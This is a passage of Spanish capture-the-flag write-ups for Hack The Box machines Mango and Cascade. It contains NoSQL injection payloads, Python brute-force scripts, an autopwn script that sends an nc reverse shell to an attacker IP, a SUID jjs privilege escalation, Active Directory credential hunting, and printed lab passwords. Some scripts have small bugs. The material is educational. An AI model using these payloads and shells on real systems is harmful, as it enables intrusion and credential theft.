El nombre de la maquina Mango nos hace pensar a Mango DB que uza NO SQL. Miramos en \href{https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL\%20Injection}{payload all the things}
para ver si se puede hacer algo con NO SQLI

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{username[$ne]=}\NormalTok{admin}\KeywordTok{&}\VariableTok{password[$ne]=}\NormalTok{admin}\KeywordTok{&}\VariableTok{login=}\NormalTok{login}
\end{Highlighting}
\end{Shaded}

Aqui vemos que la respuesta es differente de la precedente lo que quiere decir que es probable que seamos frente de una vulnerabilidad \textbf{NOSQLI}

Vamos a probar cosas con expressiones regulares

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{username[$regex]=}\NormalTok{^}\ExtensionTok{a}\KeywordTok{&}\VariableTok{password[$ne]=}\NormalTok{admin}\KeywordTok{&}\VariableTok{login=}\NormalTok{login}
\ExtensionTok{Respuesta}\NormalTok{ : 302 Found}

\VariableTok{username[$regex]=}\NormalTok{^}\ExtensionTok{b}\KeywordTok{&}\VariableTok{password[$ne]=}\NormalTok{admin}\KeywordTok{&}\VariableTok{login=}\NormalTok{login}
\ExtensionTok{Respuesta}\NormalTok{ : 200 Ok}

\VariableTok{username[$regex]=}\NormalTok{^}\ExtensionTok{ad}\KeywordTok{&}\VariableTok{password[$ne]=}\NormalTok{admin}\KeywordTok{&}\VariableTok{login=}\NormalTok{login}
\ExtensionTok{Respuesta}\NormalTok{ : 302 Found}

\VariableTok{username[$regex]=}\NormalTok{^}\ExtensionTok{ab}\KeywordTok{&}\VariableTok{password[$ne]=}\NormalTok{admin}\KeywordTok{&}\VariableTok{login=}\NormalTok{login}
\ExtensionTok{Respuesta}\NormalTok{ : 200 Ok}
\end{Highlighting}
\end{Shaded}

Suponiendo que existe un usuario admin, vemos que con expresiones regulares, cuando acertamos tenemos una respuesta a lado de servidor 302 y a cada error un 200.

Nos creamos un script en python para el NOSQLI

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ pdb }\CommentTok{# Debugging}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{main_url }\OperatorTok{=} \StringTok{"http://staging-order.mango.htb"}
\NormalTok{characters }\OperatorTok{=}\NormalTok{ string.ascii_letters}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando fase de fuerza bruta"}\NormalTok{)}
\NormalTok{    time.sleep(}\DecValTok{2}\NormalTok{)}

\NormalTok{    p2 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Password[admin]"}\NormalTok{)}
\NormalTok{    username }\OperatorTok{=} \StringTok{""}

    \ControlFlowTok{while} \VariableTok{True}\NormalTok{:}
        \ControlFlowTok{for}\NormalTok{ character }\KeywordTok{in}\NormalTok{ characters:}

\NormalTok{            p1.status(}\StringTok{"Probando con el caracter }\SpecialCharTok\NormalTok{ character)}

            \CommentTok{# NoSQL Injection}
\NormalTok{            post_data }\OperatorTok{=}\NormalTok{ \{}
                \StringTok{'username'}\NormalTok{: }\SpecialStringTok{f"^}\SpecialCharTok{\{}\NormalTok{username }\OperatorTok{+}\NormalTok{ character}\SpecialCharTok{\}}\SpecialStringTok{"}\NormalTok{,}
                \StringTok{'password[$ne]'}\NormalTok{:}\StringTok{'admin'}\NormalTok{,}
                \StringTok{'login'}\NormalTok{: }\StringTok{'login'}
\NormalTok{            \}}

\NormalTok{            r }\OperatorTok{=}\NormalTok{ requests.post(main_url, data}\OperatorTok{=}\NormalTok{post_data, allow_redirects}\OperatorTok{=}\VariableTok{False}\NormalTok{)}

            \ControlFlowTok{if}\NormalTok{ r.status_code }\OperatorTok{==} \DecValTok{302}\NormalTok{:}
\NormalTok{                username }\OperatorTok{+=}\NormalTok{ character}
\NormalTok{                p2.status(password)}
                \ControlFlowTok{break}


\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    makeRequest()}
\end{Highlighting}
\end{Shaded}

Este pequeño script nos permite encontrar el usuario \textbf{admin} y el usuario \textbf{mango}.
Modificamos el script para encontrar la contraseñas de los usuarios.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ pdb }\CommentTok{# Debugging}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{main_url }\OperatorTok{=} \StringTok{"http://staging-order.mango.htb"}
\NormalTok{characters }\OperatorTok{=}\NormalTok{ string.ascii_letters }\OperatorTok{+}\NormalTok{ string.digits }\OperatorTok{+}\NormalTok{ string.punctuation}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando fase de fuerza bruta"}\NormalTok{)}
\NormalTok{    time.sleep(}\DecValTok{2}\NormalTok{)}

\NormalTok{    p2 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Password[admin]"}\NormalTok{)}
\NormalTok{    password }\OperatorTok{=} \StringTok{""}

    \ControlFlowTok{while} \VariableTok{True}\NormalTok{:}
        \ControlFlowTok{for}\NormalTok{ character }\KeywordTok{in}\NormalTok{ characters:}

\NormalTok{            p1.status(}\StringTok{"Probando con el caracter }\SpecialCharTok\NormalTok{ character)}

            \CommentTok{# NoSQL Injection}
\NormalTok{            post_data }\OperatorTok{=}\NormalTok{ \{}
                \StringTok{'username'}\NormalTok{: }\StringTok{'admin'}\NormalTok{,}
                \StringTok{'password[$regex]'}\NormalTok{: }\SpecialStringTok{f"^}\SpecialCharTok{\{re.}\NormalTok{escape(password }\OperatorTok{+}\NormalTok{ character)}\SpecialCharTok{\}}\SpecialStringTok{"}\NormalTok{,}
                \StringTok{'login'}\NormalTok{: }\StringTok{'login'}
\NormalTok{            \}}

\NormalTok{            r }\OperatorTok{=}\NormalTok{ requests.post(main_url, data}\OperatorTok{=}\NormalTok{post_data, allow_redirects}\OperatorTok{=}\VariableTok{False}\NormalTok{)}

            \ControlFlowTok{if}\NormalTok{ r.status_code }\OperatorTok{==} \DecValTok{302}\NormalTok{:}
\NormalTok{                username }\OperatorTok{+=}\NormalTok{ character}
\NormalTok{                p2.status(password)}
                \ControlFlowTok{break}


\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    makeRequest()}
\end{Highlighting}
\end{Shaded}

Cambiando el usuario de admin a mango, tenemos las dos contraseñas. Como el login nos lleva a un \textbf{Under Plantation}, Miramos si nos podemos connectar por \textbf{ssh}

\hypertarget{vuln-exploit-gaining-access-37}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-37}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-ssh}{%
\subsection*{Ganando accesso con ssh}\label{ganando-accesso-con-ssh}}
\addcontentsline{toc}{subsection}{Ganando accesso con ssh}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ admin@10.10.10.162}
\ExtensionTok{Password}\NormalTok{: t9KcS3}\OperatorTok{>}\NormalTok{!0B#2}

\FunctionTok{ssh}\NormalTok{ mango@10.10.10.162}
\ExtensionTok{Password}\NormalTok{: h3mXK8RhU~f\{]f5H}
\end{Highlighting}
\end{Shaded}

Hemos ganado accesso al systema como el usuario \textbf{mango}.
Vemos que la flag esta en el directorio \texttt{/home/admin} tenemos que pasar al usuario admin con el comando \texttt{su\ admin}.

\hypertarget{autopwn-completo-para-el-usuario-mango}{%
\subsection*{Autopwn completo para el usuario mango}\label{autopwn-completo-para-el-usuario-mango}}
\addcontentsline{toc}{subsection}{Autopwn completo para el usuario mango}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ pdb }\CommentTok{# Debugging}
\ImportTok{from}\NormalTok{ pexpect }\ImportTok{import}\NormalTok{ pxssh}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{main_url }\OperatorTok{=} \StringTok{"http://staging-order.mango.htb"}
\NormalTok{characters }\OperatorTok{=}\NormalTok{ string.ascii_letters }\OperatorTok{+}\NormalTok{ string.digits }\OperatorTok{+}\NormalTok{ string.punctuation}
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando fase de fuerza bruta"}\NormalTok{)}
\NormalTok{    time.sleep(}\DecValTok{2}\NormalTok{)}

\NormalTok{    p2 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Password[mango]"}\NormalTok{)}
\NormalTok{    password }\OperatorTok{=} \StringTok{""}

    \ControlFlowTok{for}\NormalTok{ x }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{0}\NormalTok{, }\DecValTok{20}\NormalTok{):}
        \ControlFlowTok{for}\NormalTok{ character }\KeywordTok{in}\NormalTok{ characters:}

\NormalTok{            p1.status(}\StringTok{"Probando con el caracter }\SpecialCharTok\NormalTok{ character)}

            \CommentTok{# NoSQL Injection}
\NormalTok{            post_data }\OperatorTok{=}\NormalTok{ \{}
                \StringTok{'username'}\NormalTok{: }\StringTok{'mango'}\NormalTok{,}
                \StringTok{'password[$regex]'}\NormalTok{: }\SpecialStringTok{f"^}\SpecialCharTok{\{re.}\NormalTok{escape(password }\OperatorTok{+}\NormalTok{ character)}\SpecialCharTok{\}}\SpecialStringTok{"}\NormalTok{,}
                \StringTok{'login'}\NormalTok{: }\StringTok{'login'}
\NormalTok{            \}}

\NormalTok{            r }\OperatorTok{=}\NormalTok{ requests.post(main_url, data}\OperatorTok{=}\NormalTok{post_data, allow_redirects}\OperatorTok{=}\VariableTok{False}\NormalTok{)}

            \ControlFlowTok{if}\NormalTok{ r.status_code }\OperatorTok{==} \DecValTok{302}\NormalTok{:}
\NormalTok{                password }\OperatorTok{+=}\NormalTok{ character}
\NormalTok{                p2.status(password)}
                \ControlFlowTok{break}

    \ControlFlowTok{return}\NormalTok{ password}

\KeywordTok{def}\NormalTok{ sshConnection(username, password):}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ pxssh.pxssh()}
\NormalTok{    s.login(}\StringTok{'10.10.10.162'}\NormalTok{, username, password)}
\NormalTok{    s.sendline(}\StringTok{"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f"}\NormalTok{)}
\NormalTok{    s.prompt()}
\NormalTok{    s.logout()}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    password }\OperatorTok{=}\NormalTok{ makeRequest()}

    \ControlFlowTok{try}\NormalTok{:}
\NormalTok{        threading.Thread(target}\OperatorTok{=}\NormalTok{sshConnection, args}\OperatorTok{=}\NormalTok{(}\StringTok{'mango'}\NormalTok{, password)).start()}
    \ControlFlowTok{except} \PreprocessorTok{Exception} \ImportTok{as}\NormalTok{ e:}
\NormalTok{        log.error(}\BuiltInTok{str}\NormalTok{(e))}

\NormalTok{    shell }\OperatorTok{=}\NormalTok{ listen(lport, timeout}\OperatorTok{=}\DecValTok{20}\NormalTok{).wait_for_connection()}

\NormalTok{    shell.interactive()}
\end{Highlighting}
\end{Shaded}

\hypertarget{privilege-escalation-34}{%
\section*{Privilege Escalation}\label{privilege-escalation-34}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-43}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-43}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 }\OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{ls}\NormalTok{ -la ./usr/lib/jvm/java-11-openjdk-amd64/bin/jjs}
\end{Highlighting}
\end{Shaded}

Aqui vemos que tenemos privilegios SUID sobre el binario \texttt{jjs} de java. Buscamos en \href{https://gtfobins.github.io/gtfobins/jjs/\#suid}{gtfobins}
como escalar el privilegio con jjs.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"Java.type('java.lang.Runtime').getRuntime().exec('chmod 4755 /bin/bash').waitFor()"} \KeywordTok{|} \ExtensionTok{jjs}
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

Ya podemos leer el \textbf{root.txt}

\hypertarget{cascade}{%
\chapter*{Cascade}\label{cascade}}
\addcontentsline{toc}{chapter}{Cascade}

\hypertarget{introduccion-51}{%
\section*{Introduccion}\label{introduccion-51}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Cascade.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=whzdQw-zW_k}{\includegraphics{https://img.youtube.com/vi/whzdQw-zW_k/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-51}{%
\section*{Enumeracion}\label{enumeracion-51}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-51}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-51}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-51}{%
\subsubsection*{Ping}\label{ping-51}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.182}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-51}{%
\subsubsection*{Nmap}\label{nmap-51}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.182}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.182 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p53,88,135,139,389,445,636,3268,5985,49154,49155,49157,49158,49170 10.10.10.182 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
53 & domain & Domain controller rpcclient null session &\tabularnewline
88 & Kerberos & asproasting attack & lista de usuarios validos\tabularnewline
135 & msrpc & &\tabularnewline
139 & netbios & &\tabularnewline
389 & LDAP & Bloodhound & credenciales\tabularnewline
445 & smb & Null session &\tabularnewline
636 & tcpwrapped & &\tabularnewline
3268 & ldap & &\tabularnewline
3269 & tcpwrapped & &\tabularnewline
5985 & WinRM & evil-winrm & credenciales\tabularnewline
49154 & msrpc & Puertos por defecto de windows &\tabularnewline
49155 & msrpc & Puertos por defecto de windows &\tabularnewline
49157 & ncacn\_http & Puertos por defecto de windows &\tabularnewline
49158 & msrpc & Puertos por defecto de windows &\tabularnewline
49170 & msrpc & Puertos por defecto de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-el-smb-9}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb-9}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.182}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.182 -N}
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.182 -u }\StringTok{'null'}
\end{Highlighting}
\end{Shaded}

Vemos que estamos frente de una maquina Windows 6.1 que se llama \textbf{CASC-DC1} en el dominio \textbf{cascade.local} con un certificado firmado.
Añadimos el dominio al \texttt{/etc/hosts}.
Aqui, no podemos ver los recursos compartidos a nivel de red con un null session.

\hypertarget{buscando-ususarios-con-rpcclient-y-rpcenum-4}{%
\subsection*{Buscando ususarios con rpcclient y rpcenum}\label{buscando-ususarios-con-rpcclient-y-rpcenum-4}}
\addcontentsline{toc}{subsection}{Buscando ususarios con rpcclient y rpcenum}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.182 -N}

\ExtensionTok{rpcclient}\NormalTok{ $}\OperatorTok{>}\NormalTok{ enumdomusers}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.182 -N -c }\StringTok{"enumdomusers"}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.182 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.182 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"0x"}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.182 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"0x"} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'[]'}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.182 -N -c }\StringTok{"enumdomusers"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}[.*?\textbackslash{}]'} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"0x"} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{'[]'} \OperatorTok{>}\NormalTok{ users}
\end{Highlighting}
\end{Shaded}

Tambien podemos aprovechar de la utilidad de S4vitar

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/s4vitar/rpcenum}
\BuiltInTok{cd}\NormalTok{ rpcenum}
\ExtensionTok{./rpcenum}\NormalTok{ -e All -i 10.10.10.182}
\end{Highlighting}
\end{Shaded}

Como tenemos un listado de usuarios, podemos explotar un Asproasting ataque.

\hypertarget{asproasting-attack-2}{%
\subsection*{Asproasting Attack}\label{asproasting-attack-2}}
\addcontentsline{toc}{subsection}{Asproasting Attack}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{GetNPUsers.py}\NormalTok{ cascade.local/ -no-pass -userfile users}
\end{Highlighting}
\end{Shaded}

Aqui no podemos ver nada.

\hypertarget{kerbrute-1}{%
\subsection*{Kerbrute}\label{kerbrute-1}}
\addcontentsline{toc}{subsection}{Kerbrute}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/ropnop/kerbrute}
\BuiltInTok{cd}\NormalTok{ kerbrute}
\ExtensionTok{go}\NormalTok{ build -ldflags }\StringTok{"-s -w"}\NormalTok{ .}
\ExtensionTok{upx}\NormalTok{ kerbrute}
\ExtensionTok{./kerbrute}\NormalTok{ userenum --dc 10.10.10.182 -d cascade.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt}
\end{Highlighting}
\end{Shaded}

Tampoco vemos nada aqui.

\hypertarget{vulnerability-assessment-38}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-38}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{ldapsearch}{%
\subsection*{ldapsearch}\label{ldapsearch}}
\addcontentsline{toc}{subsection}{ldapsearch}

Como el ldap esta disponibles, usamos \textbf{ldapsearch} para enumerar el LDAP.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ldapsearch}\NormalTok{ -x -h 10.10.10.182 -b }\StringTok{"dc=cascade,dc=local"}
\end{Highlighting}
\end{Shaded}

Como la enumeracion es muy grande, buscamos emails

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ldapsearch}\NormalTok{ -x -h 10.10.10.182 -b }\StringTok{"dc=cascade,dc=local"} \KeywordTok{|} \FunctionTok{grep} \StringTok{"@cascade.local"}
\end{Highlighting}
\end{Shaded}

Miramos por cada uno de estos usuarios encontrados si hay informaciones relevantes por cada uno de ellos mirando las 20 lineas que hay debajo
del grep

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ldapsearch}\NormalTok{ -x -h 10.10.10.182 -b }\StringTok{"dc=cascade,dc=local"} \KeywordTok{|} \FunctionTok{grep} \StringTok{"@cascade.local -A 20}
\end{Highlighting}
\end{Shaded}

Debajo del usuario \textbf{r.thompson} vemos un cascadeLegacyPwd en base64

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"clk0bjVldmE="} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo}
\end{Highlighting}
\end{Shaded}

Tiene pinta de ser una contraseña.

Validamos el usuario con crackmapexec

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.182 -u }\StringTok{"r.thompson"}\NormalTok{ -p }\StringTok{"rY4n5eva"}
\end{Highlighting}
\end{Shaded}

Vemos que este usuario es valido pero no nos da un \textbf{Pwn3d!}. Miramos si podemos connectar por WinRM

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ winrm 10.10.10.182 -u }\StringTok{"r.thompson"}\NormalTok{ -p }\StringTok{"rY4n5eva"}
\end{Highlighting}
\end{Shaded}

pero no.

Miramos Si tenemos accesso a directorio compartidos a nivel de red

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.182 -u }\StringTok{'r.thompson'}\NormalTok{ -p }\StringTok{'rY4n5eva'}
\end{Highlighting}
\end{Shaded}

podemos ver recursos como:

\begin{itemize}
\tightlist
\item
  Data
\item
  NETLOGON
\item
  print\$
\item
  SYSVOL
\end{itemize}

Creamos una montura contra el directorio \texttt{Data}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mkdir}\NormalTok{ /mnt/smbmounted}
\FunctionTok{mount}\NormalTok{ -t cifs //10.10.10.182/Data /mnt/smbmounted -o username=r.thompson,password=rY4n5eva,domain=cascade.local,rw}
\BuiltInTok{cd}\NormalTok{ /mnt/smbmounted}
\ExtensionTok{tree}
\end{Highlighting}
\end{Shaded}

Vemos un fichero \texttt{Meeting\_Notes\_June\_2018.html} y lo analyzamos desde un servidor web

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /var/www/html}
\FunctionTok{cp}\NormalTok{ /mnt/smbmounted/IT/Email\textbackslash{} Archives/Meeting_Notes_June_2018.html index.html}
\ExtensionTok{service}\NormalTok{ apache2 start}
\end{Highlighting}
\end{Shaded}

Y lo miramos desde firefox en localhost. Y vemos un email escrito por Steve (s.smith) que nos dice que hay una cuenta temporar
llamada TempAdmin que a sido creada para manejar migraciones y que esta cuenta tiene la misma contraseña que el usuario admin.

Mirando los otros ficheros, vemos un \texttt{VNC\ Install.reg}.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{file}\NormalTok{ VNC}\DataTypeTok{\textbackslash{} }\NormalTok{Install.reg}
\FunctionTok{cat}\NormalTok{ VNC}\DataTypeTok{\textbackslash{} }\NormalTok{Install.reg}
\end{Highlighting}
\end{Shaded}

Aqui podemos ver una contraseña en hexadecimal

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"6b,cf,2a,4b,6e,5a,ca,0f"} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{','}
\BuiltInTok{echo} \StringTok{"6b,cf,2a,4b,6e,5a,ca,0f"} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{','} \KeywordTok{|} \ExtensionTok{xxd}\NormalTok{ -ps -r}
\BuiltInTok{echo} \StringTok{"6b,cf,2a,4b,6e,5a,ca,0f"} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{','} \KeywordTok{|} \ExtensionTok{xxd}\NormalTok{ -ps -r }\OperatorTok{>}\NormalTok{ pass}
\FunctionTok{cat}\NormalTok{ password}
\end{Highlighting}
\end{Shaded}

Vemos que el contenido esta encryptado. Buscamos por internet si existe un decrypter para contraseñas de VNC

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/jeroennijhof/vncpwd}
\BuiltInTok{cd}\NormalTok{ vncpwd}
\FunctionTok{make}
\FunctionTok{make}\NormalTok{ install}
\ExtensionTok{upx}
\ExtensionTok{./vncpwd}\NormalTok{ password}
\end{Highlighting}
\end{Shaded}

Aqui vemos la contraseña. Lo validamos con crackmapexec

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.182 -u }\StringTok{"s.smith"}\NormalTok{ -p }\StringTok{"sT333ve2"}
\ExtensionTok{crackmapexec}\NormalTok{ winrm 10.10.10.182 -u }\StringTok{"s.smith"}\NormalTok{ -p }\StringTok{"sT333ve2"}
\end{Highlighting}
\end{Shaded}

El usuario es validado y ademas tiene un \textbf{Pwn3d!} en el winrm.

\hypertarget{vuln-exploit-gaining-access-38}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-38}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{coneccion-con-evil-winrm-1}{%
\subsection*{Coneccion con EVIL-WINRM}\label{coneccion-con-evil-winrm-1}}
\addcontentsline{toc}{subsection}{Coneccion con EVIL-WINRM}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.182 -u }\StringTok{'s.smith'}\NormalTok{ -p }\StringTok{'sT33ve2'}
\FunctionTok{whoami}
\ExtensionTok{ipconfig}
\BuiltInTok{type}\NormalTok{ ../Desktop/user.txt}
\end{Highlighting}
\end{Shaded}

Ya podemos leer la flag.

\hypertarget{privilege-escalation-35}{%
\section*{Privilege Escalation}\label{privilege-escalation-35}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-44}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-44}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cd}\NormalTok{ C:\textbackslash{}Users\textbackslash{}Administrator}
\FunctionTok{dir}
\NormalTok{whoami /priv}
\NormalTok{whoami /all}
\NormalTok{net user}
\NormalTok{net localgroup }\StringTok{"Audit Share"}
\end{Highlighting}
\end{Shaded}

Aqui vemos quel usuario es parte de un grupo \texttt{Audit\ Share} y que le da el privilegio de ver un recurso compartido a nivel de red llamado \texttt{\textbackslash{}\textbackslash{}Casc-DC1\textbackslash{}Audit\$}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.182 }\StringTok{'s.smith'}\NormalTok{ -p }\StringTok{'sT33ve2'}
\FunctionTok{mkdir}\NormalTok{ Audit}
\BuiltInTok{cd}\NormalTok{ Audit}
\ExtensionTok{smbclient}\NormalTok{ //10.10.10.182/Autdit$ -U }\StringTok{"s.smith%sT33ve2"}
\FunctionTok{dir}
